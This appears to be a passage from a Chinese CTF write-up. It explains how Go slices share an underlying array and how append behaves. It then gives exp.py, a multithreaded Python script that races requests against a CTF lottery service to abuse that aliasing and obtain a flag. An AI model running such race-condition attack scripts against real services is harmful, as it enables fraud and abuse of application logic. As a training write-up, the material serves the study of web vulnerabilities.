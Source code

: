 Go里有引用类型与值类型的区分，所有的引用类型其实都是一个包含指针的结构体。而切片的指针指向的是底层的数组（数组不可变，切片可变）

比如我这样操作的话

```go
array := [...]int{1, 2, 3}
s1 := array[:2]
s2 := array[2:]
```

这两个切片所引用的数组是同一个，我修改其中一个切片的结果是，另一个也会被修改

而append函数则是扩充切片，它创建一个新的切片结构体并返回。当没有达到cap（容量）限制时，它还是指向原先的数组，并将元素append到底层数组中，并修改长度。而超过容量限制后，则会创建一个新的底层数组，并且返回指向新数组的切片

所以虽然C-like的变量是传值，但是由于引用类型的存在，我们可以修改到原始结构体。而又因为传值的原因，我们可以拿到不一样的slice结构体（指针相同，长度容量不同）

exp.py：

```python
import requests
import threading
import os


url = 'https://lottery.zajebistyc.tf'


def exp():
    s = requests.Session()
    r = s.post(url + '/account').json()
    user = r['name']
    
    for _ in range(3):
        r = s.post(url + f'/account/{user}/amount', json={'amount': 99})

    r = s.get(url + f'/account/{user}')
    r = s.post(url + f'/lottery/add', json={'accountName': user})
    r = s.post(url + f'/account/{user}/amount', json={'amount': 99})
    r = s.get(url + f'/account/{user}')

    print(r.text)
    if 'flag' in r.text:
        os._exit(0)


t = [threading.Thread(target=exp) for _ in range(30)]
[thread.start() for thread in t]
```

***

### DDCTF2019

Web除了最后一道~~零解~~(最后有几个大佬a了)的Java
